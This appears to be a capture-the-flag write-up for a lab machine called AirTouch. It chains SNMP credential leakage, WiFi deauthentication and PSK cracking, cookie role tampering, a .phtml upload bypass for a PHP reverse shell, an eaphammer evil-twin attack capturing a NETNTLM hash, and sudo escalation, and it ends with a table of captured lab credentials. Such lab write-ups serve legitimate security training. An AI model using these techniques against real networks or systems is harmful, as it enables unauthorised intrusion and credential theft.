---
tags:
  - Linux
  - Medium
  - UDP
  - SNMP
  - snmpwalk
  - WiFi_Hacking
  - airmon-ng
  - airodump-ng
  - aireplay-ng
  - aircrack-ng
  - airdecap-ng
  - wpa_supplicant
  - dhclient
  - Cookies
  - File_Upload_Bypass
  - PHP
  - eaphammer
  - Hard_Coded_Secret
  - RCE
  - WebApp
  - Port_Forwarding
  - Evil_Twin
  - Access_Point
  - sudo
  - hostapd
---


## Port Scan

As always, we first start off with an `nmap` scan. Looking at the results, we have just one port open: SSH

```
# Nmap 7.95 scan initiated Sun Jan 18 02:07:24 2026 as: /usr/lib/nmap/nmap --privileged -sC -sV -vv -oA nmap/airtouch 10.129.69.211
Nmap scan report for 10.129.69.211
Host is up, received echo-reply ttl 63 (0.051s latency).
Scanned at 2026-01-18 02:07:25 GMT for 6s
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 bd:90:00:15:cf:4b:da:cb:c9:24:05:2b:01:ac:dc:3b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCt5/czuvlRZ0Ueo5rURjmvlJDipbg3G8orjGjxa9ZuqUM5ZfZPBFKcRFji0HgJc6bQFTXDEXStqG5yxtieKu4LxNWyvuFtFawpQn+4v1qaA5j6E85Zh8qeE993mf+Q/Ea5YfIsZ/otloBj5UsOER8Y+t0/oybf2vVsBc4/925ekSL6Gk3p9BQRs2s4/n33+nEfq2C+bP4F8JkoUZgTPCV8MMat+mAc5t3hxQlUbAe2taiM8+Km8CEFaQkGdZDIPRaeYqLmrmRnNLtaOrYpzsea98Pt/54QICcusk0nsT39cXsbM5mW8bFpeEwXu+w/KRvtRkSg3QRWypilddyUBgEpAU4FEn8ifL2rbNIJ/C4NPNs2O1FzNi+E6twdRz1/p6ln0in3Y5PRXo4Y3Ln/PlqI8V1BrC8zfq7PIPuC4X7Agdq2ktnracnsL8oOhfLRWwrHaPOX2tZGA3dtRs1BiJbU3IiQQOf3IPnnQDc1lgNvlrYz7tFwrIvaSvCJWVZfIE0=
|   256 6e:e2:44:70:3c:6b:00:57:16:66:2f:37:58:be:f5:c0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIFdougpfxwAEIWPEa46kK7yuwcialkBHhi6CR0aNOdjjNuPKkbc8GGATnt0vr5eEoc9lsYRRnBoyhoHZMd4oGw=
|   256 ad:d5:d5:f0:0b:af:b2:11:67:5b:07:5c:8e:85:76:76 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPp9qQHbtPkcaGbM4SnotIbktxIUaybHBXxDXKgyqYnK
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 18 02:07:31 2026 -- 1 IP address (1 host up) scanned in 6.76 seconds
```

## User

### Using snmpwalk to Expose a Credential

The `nmap` scan is shockingly sparse. Even doing a full port scan with `-p-` still only results in SSH. A little bit of time spent researching this version of SSH proves fruitless as well.

I decided to run a UDP scan against the machine. Exposed UDP ports aren't as common, but at this point, there doesn't seem to be any other path forward. To execute the scan, the `-sU` flag is utilized and `-o` saves it to a file `nmap/nmapUDP`:

`nmap -sU 10.129.69.211 -o nmap/nmapUDP`

Lo and behold, we get a hit on `snmp`:

```
# Nmap 7.95 scan initiated Sun Jan 18 02:07:52 2026 as: /usr/lib/nmap/nmap --privileged -sU -o nmap/nmapUDP 10.129.69.211
Nmap scan report for 10.129.69.211
Host is up (0.36s latency).
Not shown: 998 closed udp ports (port-unreach)
PORT    STATE         SERVICE
68/udp  open|filtered dhcpc
161/udp open          snmp

# Nmap done at Sun Jan 18 02:27:06 2026 -- 1 IP address (1 host up) scanned in 1153.86 seconds
```

Let's try to enumerate the port with `snmpwalk`. If they have a public community string, we should be able to extract some information out of it. To run the enumeration, I executed the following:

`snmpwalk -v 2c -c public 10.129.69.211`

Bingo - we see an exposed credential in the output.

```
iso.3.6.1.2.1.1.1.0 = STRING: "\"The default consultant password is: RxBlZhLmOkacNWScmZ6D (change it after use it)\""
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (128175) 0:21:21.75
iso.3.6.1.2.1.1.4.0 = STRING: "admin@AirTouch.htb"
iso.3.6.1.2.1.1.5.0 = STRING: "Consultant"
iso.3.6.1.2.1.1.6.0 = STRING: "\"Consultant pc\""
...
```

Let's see if this gets us on the box with `ssh`. Attempting to use the username `admin` doesn't quite work, but giving `consultant` a try succeeds:

`ssh consultant@10.129.69.211`



As per my usual privilege escalation steps, I ran `sudo -l` to see if I have any `sudo` permissions on this account. Shockingly, this account can run anything with `sudo`, and we escalate to `root` on this box.



### Cracking AirTouch-Internet Traffic

The `user.txt` flag wasn't in `consultant`'s home, and neither was `root.txt` in the `/root` directory. That would be... too easy. However, there were some network diagram images in `/home/consultant`. (As a side note, in `/root`, the tool `eaphammer` has been cloned down. We won't use this now, but it will come in handy later).



<u>diagram-net.png</u>


<u>photo_2023-03-01_22-04-52.png</u>


Looks like there are two wireless networks here: `AirTouch-Internet` and `AirTouch-Office`. By a stroke of luck, the `aircrack-ng` suite is already installed on this machine. Let's see if the machine can see these networks with `airmon-ng` and `airodump-ng` (note the `-b` flag here allows us to see 5 GHz networks, which is the only way we can see `AirTouch-Office`):

`airmon-ng start wlan0`
`airodump-ng -b abg -w handshakes wlan0mon`



As expected, here they are. Notice that `AirTouch-Internet` has nothing for "ENC" and has `PSK` under "AUTH", while `AirTouch-Office` has `WPA2` for "ENC" and `MGT` under "AUTH".

|      | AirTouch-Internet | AirTouch-Office |
| ---- | ----------------- | --------------- |
| ENC  |                   | WPA2            |
| AUTH | PSK               | MGT             |

`AirTouch-Internet` uses `PSK` for authentication, which stands for "Pre-Shared Key". If we can get our hands on the key, we can log in to the network. Likewise, lack of encryption also suggests that we can read traffic going across. On the other hand, `AirTouch-Office` uses `WPA2` and `MGT` for authentication, which tends to be userpass based. Thus, `AirTouch-Internet` seems like it would be easier to attack with the `aircrack-ng` suite, so we'll start with it and come back to `AirTouch-Office` later.

Let's capture some traffic off of `AirTouch-Internet` and see if we can take a peek inside. To target specifically `AirTouch-Internet` and capture the data to a file, we can use an extra assortment of flags to specify the channel, BSSID, and to capture. The channel and BSSID can be identified in the `airodump` data in the screenshotted table above.

`airodump-ng -c 6 --bssid F0:9F:C2:A3:F1:A7 -w capture wlan0mon`

At the same time, we can hit the network with a few deauths to incentive connections back to it and get `EAPOL` frames. We can do that with `aireplay-ng`:

`aireplay-ng -0 3 -a F0:9F:C2:A3:F1:A7 wlan0mon`

After waiting a bit and capturing a few frames, we can see the data landed in a file `capture-01.cap`. The data is all garbled, though.



We can use `aircrack-ng` to try and determine the password we need to decrypt the file. Ever so fortunately (again), `rockyou.txt` is already on this machine which we can use to perform the crack.

`aircrack-ng -w /root/eaphammer/wordlists/rockyou.txt capture-01.cap`



Success! We retrieved the key `challenge`. We can then use `airdecap-ng` to decrypt the `capture-01.cap` file and see what's inside. This produces a decrypted file of `capture-01-dec.cap`.

`airdecap-ng -e AirTouch-Internet -p challenge capture-01.cap`



### Connecting to AirTouch-Internet and Finding the Web App

Taking a peak in our decrypted file `capture-01-dec.cap`, we can see a user trying to hit an endpoint `/lab.php` on a web app hosted on `192.168.3.1`. The cookie is also exposed, so if we can get on the app, we can impersonate this user.



Before we can do this though, we need to get onto the network ourselves. Now that we've cracked the pre-shared key for it, we can authenticate using `wpa_passphrase` and `wpa_supplicant`. There are quite a few `wlan` interfaces available, so we'll use `wlan1`.

`ip link set up wlan1`
`wpa_passphrase "AirTouch-Internet" "challenge" > /etc/wpa_supplicant/airtouch.conf`
`wpa_supplicant -B -i wlan1 -c /etc/wpa_supplicant/airtouch.conf`
`dhclient wlan1`

To summarize these commands, we did the following:

- Enable the `wlan1` interface to be used with `ip`
- Use `wpa_passphrase` to create the config file that defines our network authentication
- Set `wlan1` to connect to the network using our config file with `wpa_supplicant`
- Acquire an open IP address using `dhclient`

If all goes to plan, we should see an IP address provisioned to us under `wlan1`:



Next, we can use the `ssh` interactive client to port forward the web app to our host machine. You can type `~C` after an empty line during an `ssh` session to open the interactive client. Then, the following command will begin forwarding our local port on `9090` to the web app on `192.168.3.1:80`:

`-L 9090:192.168.3.1:80`



Now that we're port forwarding, going to `http://localhost:9090` on our host machine yields a login page in the browser.



### Abusing the Cookie and Exploiting RCE through a File Upload

We're presented with a login portal, but if we remember from before, we have a cookie from the decrypted network traffic. So, we can launch `BurpSuite`, intercept a request to `/lab.php`, update the `Cookie` header to the one we captured, and forward the request:







And voila, we are authenticated. So we don't have to keep setting our cookie in `BurpSuite`, we can open the developer console and enter the portions of our cookie into their respective slots, and then finally click on the hyperlink to continue forward:





The page seems to be pretty static as there isn't anything to interact with. Thinking back on it, it's odd that our apparent `UserRole` is set in our `Cookie`. Let's try to change it from `user` to `admin` and see if anything interesting happens:



In response, a new "Upload Configuration File" section has appeared:


Let's see what happens if we upload a random text file to it. In doing so, it seems to upload to an `uploads` folder and without any hashing or UUID conversion of the final file name.





This is a PHP web app, so the logical next step is to upload a `php` reverse shell. Something important when doing this is that our listener is **NOT** on our host machine. This is because the web app is running on a network that our host can't reach. Right now, only our owned machine can touch it. Luckily, the box we own does have `nc` on it, so we can point our reverse shell to its IP and set the listener on there:





Unfortunately though, it looks like there is an extension blacklist on the server preventing `.php` file uploads.



PHP does tend to have an absurd number of executable extensions, so we can try a wordlist like [this one](https://github.com/tjomk/wfuzz/blob/master/wordlist/fuzzdb/attack-payloads/file-upload/alt-extensions-php.txt) which contains a handful of variations. While there is most definitely a way to fuzz using this wordlist along with a tool like `BurpSuite` or `ffuf`, I just happened to try the first extension in the list with success: `.phtml`.



Navigating to our uploaded reverse shell at `http://localhost:9090/uploads/shell.phtml` pops a shell on our listener:





Fortunately, `python3` is installed on this new box which can be used to upgrade our shell.

`python3 -c 'import pty;pty.spawn("/bin/bash")'`
`^Z`
`stty raw -echo;fg`
`⏎ ⏎`
`export TERM=xterm`



### Finding a Hard Coded Credential to PrivEsc on AirTouch-AP-PSK

When popping a shell, identifying a database or similar config file is a good place to start. For us, we can find the web app code located at `/var/www/html`.



Taking a peak at `login.php`, we see some hard coded credentials used to perform authentication against login form submissions:



Looking in `/home`, there does appear to be another user named `user`. After trying the `JunDRDZKHDnpkpDDvay` credential with `su`, we become `user`.



Just like before, checking `sudo -l` delights us with `(ALL) NOPASSWD: ALL` and we can escalate to root. At last, we finally find the `user.txt` flag at `/root`.



## Root

### Finding More Credentials and AP Certificates

There are a number of interesting files here, but most intriguing is `send_certs.sh`.

<u>send_certs.sh</u>

```
#!/bin/bash

# DO NOT COPY
# Script to sync certs-backup folder to AirTouch-office. 

# Define variables
REMOTE_USER="remote"
REMOTE_PASSWORD="xGgWEwqUpfoOVsLeROeG"
REMOTE_PATH="~/certs-backup/"
LOCAL_FOLDER="/root/certs-backup/"

# Use sshpass to send the folder via SCP
sshpass -p "$REMOTE_PASSWORD" scp -r "$LOCAL_FOLDER" "$REMOTE_USER@10.10.10.1:$REMOTE_PATH"
```

There are two very important things to note here:

First and most obviously, it contains a credential `remote:xGgWEwqUpfoOVsLeROeG` being used with `scp`. If we can connect to the device at `10.10.10.1` that is on the `AirTouch-Office` network (according to our original diagram), we can `ssh` in using the creds.

Secondly, the certificates within the `certs-backup` folder are sync'd up with `AirTouch-Office`. Before in our `airodump-ng` output, we saw that `AirTouch-Office` uses `WPA2` which utilizes certificates for verification. We can abuse the use of these certificates to carry out an evil twin attack using `eaphammer`. If executed correctly, we can intercept login credentials to the network, connect to the network using them, and then `ssh` onto the box with our new creds.

Because we have access to this new `AirTouch-AP-PSK` machine as `user`, we can use `scp` to transfer the certs back to the original box that has `eaphammer`. After moving the certs to `/home/user`, we can pull them with `scp` on the main box:

`scp user@192.168.3.1:~/* /home/consultant/certs`

<u>On AirTouch-AP-PSK</u>


<u>On AirTouch-Consultant</u>


### Stealing Network Credentials with EAPHammer

With the certs transferred to our box, we can now use `eaphammer` to impersonate the `AirTouch-Office` AP in an evil twin attack. As alluded to earlier, the box conveniently comes with the tool pre-cloned in `/root`.



First, we need to load the certs. This can be done with the `--cert-wizard` flag:

`./eaphammer --cert-wizard import --server-cert /home/consultant/certs/server.crt --ca-cert /home/consultant/certs/ca.crt --private-key /home/consultant/certs/server.key`



Then, we use the `--creds` flag to carry out the evil twin attack itself, making use of `wlan2` as our free interface. We will also need the channel and BSSID for `AirTouch-Office`. These can both be found with `airodump-ng` and was identified in the "Cracking AirTouch-Internet Traffic" section.

`./eaphammer -i wlan2 --channel 44 --auth wpa-eap --bssid AC:8B:A9:F3:A1:13 --essid "AirTouch-Office" --creds`

From here, all we must simply do is wait. Throwing in some deauths like before with `AirTouch-Internet` may help expedite things, but is not strictly necessary. After enough time, we retrieve an NETNTLM hash for the user `AirTouch\r4ulcl` user.



On our host machine, we can copy the `hashcat` designated hash into a file `r4ulcl.hash`. Then, we can use `hashcat` itself to crack the hash:

`hashcat -a 0 r4ulcl.hash ~/Documents/rockyou.txt`

After a couple seconds, the hash cracks and reveals a password of `laboratory`.



### Logging in to AirTouch-Office and AirTouch-AP-MGT

With our newly acquired credentials, we can connect to the `AirTouch-Office` network in a similar manner as we did `AirTouch-Internet`. Like before, we enable one of our free `wlan` interfaces with `ip` and create the config file using `wpa_passphrase`:

`ip link set up wlan3`
`wpa_passphrase "AirTouch-Office" "laboratory" > /etc/wpa_supplicant/office.conf`

However, instead of a pre-shared key, we have an actual user credential. Therefore, we need to update our config file to include a line for `identity` and `password`, making sure to use the domain\username value listed in the `eaphammer` interception.



Then, like before, we use `wpa_supplicant` and `dhclient` to provision ourselves an IP on the `AirTouch-Office` network.

`wpa_supplicant -B -i wlan3 -c /etc/wpa_supplicant/office.conf`
`dhclient wlan3`



Now that we're finally on the network, we can use the credentials we found earlier for `remote` on `10.10.10.1` to log in to the machine.

`ssh remote@10.10.10.1`



### Pivoting to Admin and then Root

Does our `sudo -l` trick work a third time?



No dice. However, we do notice another user's home directory, `admin`, in `/home`.



I'd wager that, like on `AirTouch-AP-PSK`, if we can pivot to this user, we can pivot to `root`. Looking around the machine, it's pretty barren. There's nothing in `/home/remote`, `/home/admin` (which we can surprisingly look into), `/opt`, `/var/www`, or `/var/backups`. However, we do notice `hostapd_aps` running with `ps aux`.



After a quick Google search (and inferring from the name), this process has to do with the `hostapd` service. `hostapd` is a piece of Linux software that turns machines into a WPA (go figure). The config files for it live in `/etc/hostapd`.



Reading the `hostapd_wpe.eap_user` file gives us the loot we're looking for.



Using this credential, we can become `admin`.



Running `sudo -l` for one final time, we see that we yet again have `(ALL) NOPASSWD: ALL` and can pivot to `root`. The `root.txt` flag awaits in `/root`.



## Credential List

| Username        | Password                       | Description                                |
| --------------- | ------------------------------ | ------------------------------------------ |
| consultant      | RxBlZhLmOkacNWScmZ6D           | SSH login to AirTouch-Consultant           |
| \<none\>        | challenge                      | PSK to the AirTouch-Internet network       |
| user            | JunDRDZKHDnpkpDDvay            | SSH login to AirTouch-AP-PSK               |
| AirTouch\r4ulcl | laboratory                     | Credentials to the AirTouch-Office network |
| remote          | xGgWEwqUpfoOVsLeROeG           | SSH login to AirTouch-AP-MGT               |
| admin           | xMJpzXt4D9ouMuL3JJsMriF7KZozm7 | admin login to AirTouch-AP-MGT             |
